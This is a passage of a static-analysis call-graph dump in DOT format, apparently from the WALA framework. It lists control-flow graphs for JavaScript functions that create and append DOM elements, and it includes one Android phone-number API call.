invokevirtual < Application, Landroid/telephony/TelephonyManager, getLine1Number()Ljava/lang/String; > v6 @10 exception:v7(line 5)\lBB6\l7   return v8                                (line 7)\lBB7\l

<SuccessNodes: 0>\l" shape=box]
204 [label="Node: <ctor for <JavaScriptLoader,LStringObject>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@34 ]
<ctor for <JavaScriptLoader,LStringObject>>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB5\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB5\lBB3[3..4]\l    -> BB4\lBB4[5..5]\l    -> BB5\lBB5[-1..-2]\lInstructions:\lBB0\l0   v3 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v5 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v6 = new <JavaScriptLoader,LStringObject>@2\lBB3\l3   set_prototype(v6, v5)                    \l4   putfield v6.< JavaScriptLoader, LRoot, $value, <JavaScriptLoader,LRoot> > = v2\lBB4\l5   return v6                                \lBB5\l

<SuccessNodes: 0>\l" shape=box]
293 [label="Node: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@31 ]
<ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0>>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..4]\l    -> BB4\l    -> BB7\lBB4[5..5]\l    -> BB6\l    -> BB5\lBB5[6..6]\l    -> BB7\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v3 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v5 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v6 = new <JavaScriptLoader,LObject>@2    \lBB3\l3   set_prototype(v6, v5)                    \l4   v8 = invoke v1@4 v6,v2 exception:v9      \lBB4\l5   conditional branch(eq) v8,v10            \lBB5\l6   return v8                                \lBB6\l7   return v6                                \lBB7\l

<SuccessNodes: 1>\lNode: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0> Context: Everywhere" shape=box]
296 [label="Node: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0> Context: Everywhere
<Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0>\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..6]\l    -> BB2\l    -> BB9\lBB2[7..7]\l    -> BB3\l    -> BB9\lBB3[8..12]\l    -> BB4\l    -> BB9\lBB4[13..15]\l    -> BB5\l    -> BB9\lBB5[16..16]\l    -> BB6\l    -> BB9\lBB6[17..21]\l    -> BB7\l    -> BB9\lBB7[22..22]\l    -> BB8\l    -> BB9\lBB8[23..23]\l    -> BB9\lBB9[-1..-2]\lInstructions:\lBB0\lBB1\l0   v4 = new <JavaScriptLoader,LArray>@0     index.html4658941866824074300.js [213->962] (line 8) {4=[arguments]}\l1   v8 = global:global Function              index.html4658941866824074300.js [213->962] (line 8)\l2   v5 = construct v8@2 v7:#L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1 exception:v6index.html4658941866824074300.js [213->962] (line 8) {5=[make_node1]}\l3   v12 = global:global Function             index.html4658941866824074300.js [213->962] (line 8)\l4   v9 = construct v12@4 v11:#L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2 exception:v10index.html4658941866824074300.js [213->962] (line 8) {9=[make_node2]}\l5   v14 = global:global DOMHTMLElement       index.html4658941866824074300.js [257->271] (line 9)\l6   check v14                                index.html4658941866824074300.js [257->271] (line 9)\lBB2\l7   fieldref v2.v15:#temp = v14 = v14        index.html4658941866824074300.js [245->271] (line 9) {2=[this, $$destructure$rcvr4], 15=[$$destructure$elt4]}\lBB3\l12   v19 = dispatch v15:#temp@12 v2,v20:#html exception:v21index.html4658941866824074300.js [275->292] (line 10) {15=[$$destructure$elt4], 2=[this, $$destructure$rcvr4]}\lBB4\l13   global:global node0 = v2                index.html4658941866824074300.js [296->308] (line 11) {2=[this, $$destructure$rcvr4]}\l14   v24 = global:global document            index.html4658941866824074300.js [312->320] (line 12)\l15   check v24                               index.html4658941866824074300.js [312->320] (line 12)\lBB5\l16   fieldref v24.v25:#node0 = v2 = v2       index.html4658941866824074300.js [312->333] (line 12) {2=[this, $$destructure$rcvr4]}\lBB6\l21   v29 = dispatch v28:#appendChild@21 v3,v2 exception:v30index.html4658941866824074300.js [337->361] (line 13) {28=[$$destructure$elt5], 3=[parent, $$destructure$rcvr5], 2=[this, $$destructure$rcvr4]}\lBB7\l22   v31 = construct v5@22 v2 exception:v32  index.html4658941866824074300.js [534->554] (line 23) {5=[make_node1], 2=[this, $$destructure$rcvr4]}\lBB8\l23   v33 = construct v9@23 v2 exception:v34  index.html4658941866824074300.js [938->958] (line 43) {9=[make_node2], 2=[this, $$destructure$rcvr4]}\lBB9\l

<SuccessNodes: 6>\lNode: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@2 ]\lNode: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@4 ]\lNode: <Code body of function Lpreamble.js/DOMHTMLElement> Context: Everywhere\lNode: <Code body of function Lpreamble.js/DOMNode/Node_prototype_appendChild> Context: Everywhere\lNode: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@23 ]\lNode: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@22 ]" shape=box]
300 [label="Node: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@2 ]
<ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1)>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..3]\l    -> BB4\l    -> BB7\lBB4[4..5]\l    -> BB5\lBB5[6..6]\l    -> BB6\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v2 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v4 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v5 = new <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1>@2\lBB3\l3   v7 = new <JavaScriptLoader,LObject>@3    \lBB4\l4   set_prototype(v5, v4)                    \l5   putfield v5.< JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > = v7\lBB5\l6   putfield v7.< JavaScriptLoader, LRoot, constructor, <JavaScriptLoader,LRoot> > = v5\lBB6\l7   return v5                                \lBB7\l

<SuccessNodes: 0>\l" shape=box]
301 [label="Node: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@4 ]
<ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2)>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..3]\l    -> BB4\l    -> BB7\lBB4[4..5]\l    -> BB5\lBB5[6..6]\l    -> BB6\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v2 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v4 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v5 = new <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2>@2\lBB3\l3   v7 = new <JavaScriptLoader,LObject>@3    \lBB4\l4   set_prototype(v5, v4)                    \l5   putfield v5.< JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > = v7\lBB5\l6   putfield v7.< JavaScriptLoader, LRoot, constructor, <JavaScriptLoader,LRoot> > = v5\lBB6\l7   return v5                                \lBB7\l

<SuccessNodes: 0>\l" shape=box]
312 [label="Node: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@23 ]
<ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2>>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..4]\l    -> BB4\l    -> BB7\lBB4[5..5]\l    -> BB6\l    -> BB5\lBB5[6..6]\l    -> BB7\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v3 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v5 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v6 = new <JavaScriptLoader,LObject>@2    \lBB3\l3   set_prototype(v6, v5)                    \l4   v8 = invoke v1@4 v6,v2 exception:v9      \lBB4\l5   conditional branch(eq) v8,v10            \lBB5\l6   return v8                                \lBB6\l7   return v6                                \lBB7\l

<SuccessNodes: 1>\lNode: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2> Context: Everywhere" shape=box]
313 [label="Node: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.do()LRoot;@22 ]
<ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1>>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..4]\l    -> BB4\l    -> BB7\lBB4[5..5]\l    -> BB6\l    -> BB5\lBB5[6..6]\l    -> BB7\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v3 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v5 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v6 = new <JavaScriptLoader,LObject>@2    \lBB3\l3   set_prototype(v6, v5)                    \l4   v8 = invoke v1@4 v6,v2 exception:v9      \lBB4\l5   conditional branch(eq) v8,v10            \lBB5\l6   return v8                                \lBB6\l7   return v6                                \lBB7\l

<SuccessNodes: 1>\lNode: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1> Context: Everywhere" shape=box]
314 [label="Node: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2> Context: Everywhere
<Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2>\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..4]\l    -> BB2\l    -> BB8\lBB2[5..5]\l    -> BB3\l    -> BB8\lBB3[6..10]\l    -> BB4\l    -> BB8\lBB4[11..13]\l    -> BB5\l    -> BB8\lBB5[14..14]\l    -> BB6\l    -> BB8\lBB6[15..19]\l    -> BB7\l    -> BB8\lBB7[20..20]\l    -> BB8\lBB8[-1..-2]\lInstructions:\lBB0\lBB1\l0   v4 = new <JavaScriptLoader,LArray>@0     index.html4658941866824074300.js [559->934] (line 25) {4=[arguments]}\l1   v8 = global:global Function              index.html4658941866824074300.js [559->934] (line 25)\l2   v5 = construct v8@2 v7:#L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3 exception:v6index.html4658941866824074300.js [559->934] (line 25) {5=[make_node3]}\l3   v10 = global:global DOMHTMLElement       index.html4658941866824074300.js [605->619] (line 26)\l4   check v10                                index.html4658941866824074300.js [605->619] (line 26)\lBB2\l5   fieldref v2.v11:#temp = v10 = v10        index.html4658941866824074300.js [593->619] (line 26) {2=[this, $$destructure$rcvr8], 11=[$$destructure$elt8]}\lBB3\l10   v15 = dispatch v11:#temp@10 v2,v16:#body exception:v17index.html4658941866824074300.js [625->642] (line 27) {11=[$$destructure$elt8], 2=[this, $$destructure$rcvr8]}\lBB4\l11   global:global node2 = v2                index.html4658941866824074300.js [648->660] (line 28) {2=[this, $$destructure$rcvr8]}\l12   v20 = global:global document            index.html4658941866824074300.js [666->674] (line 29)\l13   check v20                               index.html4658941866824074300.js [666->674] (line 29)\lBB5\l14   fieldref v20.v21:#node2 = v2 = v2       index.html4658941866824074300.js [666->687] (line 29) {2=[this, $$destructure$rcvr8]}\lBB6\l19   v25 = dispatch v24:#appendChild@19 v3,v2 exception:v26index.html4658941866824074300.js [693->717] (line 30) {24=[$$destructure$elt9], 3=[parent, $$destructure$rcvr9], 2=[this, $$destructure$rcvr8]}\lBB7\l20   v27 = construct v5@20 v2 exception:v28  index.html4658941866824074300.js [908->928] (line 40) {5=[make_node3], 2=[this, $$destructure$rcvr8]}\lBB8\l

<SuccessNodes: 4>\lNode: <Code body of function Lpreamble.js/DOMHTMLElement> Context: Everywhere\lNode: <Code body of function Lpreamble.js/DOMNode/Node_prototype_appendChild> Context: Everywhere\lNode: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.make_node2.do()LRoot;@2 ]\lNode: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.make_node2.do()LRoot;@20 ]" shape=box]
315 [label="Node: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1> Context: Everywhere
<Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node1>\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..2]\l    -> BB2\l    -> BB7\lBB2[3..3]\l    -> BB3\l    -> BB7\lBB3[4..8]\l    -> BB4\l    -> BB7\lBB4[9..11]\l    -> BB5\l    -> BB7\lBB5[12..12]\l    -> BB6\l    -> BB7\lBB6[13..17]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\lBB1\l0   v4 = new <JavaScriptLoader,LArray>@0     index.html4658941866824074300.js [366->530] (line 15) {4=[arguments]}\l1   v6 = global:global DOMHTMLElement        index.html4658941866824074300.js [412->426] (line 16)\l2   check v6                                 index.html4658941866824074300.js [412->426] (line 16)\lBB2\l3   fieldref v2.v7:#temp = v6 = v6           index.html4658941866824074300.js [400->426] (line 16) {2=[this, $$destructure$rcvr6], 7=[$$destructure$elt6]}\lBB3\l8   v11 = dispatch v7:#temp@8 v2,v12:#head exception:v13index.html4658941866824074300.js [432->449] (line 17) {7=[$$destructure$elt6], 2=[this, $$destructure$rcvr6]}\lBB4\l9   global:global node1 = v2                 index.html4658941866824074300.js [455->467] (line 18) {2=[this, $$destructure$rcvr6]}\l10   v16 = global:global document            index.html4658941866824074300.js [473->481] (line 19)\l11   check v16                               index.html4658941866824074300.js [473->481] (line 19)\lBB5\l12   fieldref v16.v17:#node1 = v2 = v2       index.html4658941866824074300.js [473->494] (line 19) {2=[this, $$destructure$rcvr6]}\lBB6\l17   v21 = dispatch v20:#appendChild@17 v3,v2 exception:v22index.html4658941866824074300.js [500->524] (line 20) {20=[$$destructure$elt7], 3=[parent, $$destructure$rcvr7], 2=[this, $$destructure$rcvr6]}\lBB7\l

<SuccessNodes: 2>\lNode: <Code body of function Lpreamble.js/DOMHTMLElement> Context: Everywhere\lNode: <Code body of function Lpreamble.js/DOMNode/Node_prototype_appendChild> Context: Everywhere" shape=box]
316 [label="Node: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.make_node2.do()LRoot;@2 ]
<ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3)>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..3]\l    -> BB4\l    -> BB7\lBB4[4..5]\l    -> BB5\lBB5[6..6]\l    -> BB6\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v2 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v4 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v5 = new <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3>@2\lBB3\l3   v7 = new <JavaScriptLoader,LObject>@3    \lBB4\l4   set_prototype(v5, v4)                    \l5   putfield v5.< JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > = v7\lBB5\l6   putfield v7.< JavaScriptLoader, LRoot, constructor, <JavaScriptLoader,LRoot> > = v5\lBB6\l7   return v5                                \lBB7\l

<SuccessNodes: 0>\l" shape=box]
317 [label="Node: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.make_node0.make_node2.do()LRoot;@20 ]
<ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3>>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..4]\l    -> BB4\l    -> BB7\lBB4[5..5]\l    -> BB6\l    -> BB5\lBB5[6..6]\l    -> BB7\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v3 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v5 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v6 = new <JavaScriptLoader,LObject>@2    \lBB3\l3   set_prototype(v6, v5)                    \l4   v8 = invoke v1@4 v6,v2 exception:v9      \lBB4\l5   conditional branch(eq) v8,v10            \lBB5\l6   return v8                                \lBB6\l7   return v6                                \lBB7\l

<SuccessNodes: 1>\lNode: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3> Context: Everywhere" shape=box]
318 [label="Node: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3> Context: Everywhere
<Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0/make_node2/make_node3>\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..2]\l    -> BB2\l    -> BB7\lBB2[3..3]\l    -> BB3\l    -> BB7\lBB3[4..8]\l    -> BB4\l    -> BB7\lBB4[9..11]\l    -> BB5\l    -> BB7\lBB5[12..12]\l    -> BB6\l    -> BB7\lBB6[13..17]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\lBB1\l0   v4 = new <JavaScriptLoader,LArray>@0     index.html4658941866824074300.js [724->902] (line 32) {4=[arguments]}\l1   v6 = global:global DOMHTMLElement        index.html4658941866824074300.js [772->786] (line 33)\l2   check v6                                 index.html4658941866824074300.js [772->786] (line 33)\lBB2\l3   fieldref v2.v7:#temp = v6 = v6           index.html4658941866824074300.js [760->786] (line 33) {2=[this, $$destructure$rcvr10], 7=[$$destructure$elt10]}\lBB3\l8   v11 = dispatch v7:#temp@8 v2,v12:#script exception:v13index.html4658941866824074300.js [794->813] (line 34) {7=[$$destructure$elt10], 2=[this, $$destructure$rcvr10]}\lBB4\l9   global:global node3 = v2                 index.html4658941866824074300.js [821->833] (line 35) {2=[this, $$destructure$rcvr10]}\l10   v16 = global:global document            index.html4658941866824074300.js [841->849] (line 36)\l11   check v16                               index.html4658941866824074300.js [841->849] (line 36)\lBB5\l12   fieldref v16.v17:#node3 = v2 = v2       index.html4658941866824074300.js [841->862] (line 36) {2=[this, $$destructure$rcvr10]}\lBB6\l17   v21 = dispatch v20:#appendChild@17 v3,v2 exception:v22index.html4658941866824074300.js [870->894] (line 37) {20=[$$destructure$elt11], 3=[parent, $$destructure$rcvr11], 2=[this, $$destructure$rcvr10]}\lBB7\l

<SuccessNodes: 2>\lNode: <Code body of function Lpreamble.js/DOMHTMLElement> Context: Everywhere\lNode: <Code body of function Lpreamble.js/DOMNode/Node_prototype_appendChild> Context: Everywhere" shape=box]
3 -> 11
8 -> 18
8 -> 19
11 -> 185
11 -> 192
192 -> 201
192 -> 202
192 -> 204
192 -> 293
293 -> 296
296 -> 300
296 -> 301
296 -> 312
296 -> 313
312 -> 314
313 -> 315
314 -> 316
314 -> 317
317 -> 318
}